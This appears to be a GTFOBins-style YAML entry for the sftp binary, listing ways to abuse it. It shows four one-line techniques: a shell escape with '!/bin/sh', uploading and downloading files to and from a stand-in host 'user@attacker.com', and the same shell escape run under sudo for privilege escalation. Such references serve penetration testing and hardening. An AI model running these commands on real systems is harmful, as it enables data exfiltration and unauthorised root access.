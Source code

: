 ```yaml
---
functions:
  shell:
    - code: |
        HOST=user@attacker.com
        sftp $HOST
        !/bin/sh
  file-upload:
    - description: Send local file to a SSH server.
      code: |
        RHOST=user@attacker.com
        sftp $RHOST
        put file_to_send file_to_save
  file-download:
    - description: Fetch a remote file from a SSH server.
      code: |
        RHOST=user@attacker.com
        sftp $RHOST
        get file_to_get file_to_save
  sudo:
    - code: |
        HOST=user@attacker.com
        sudo sftp $HOST
        !/bin/sh
---
```

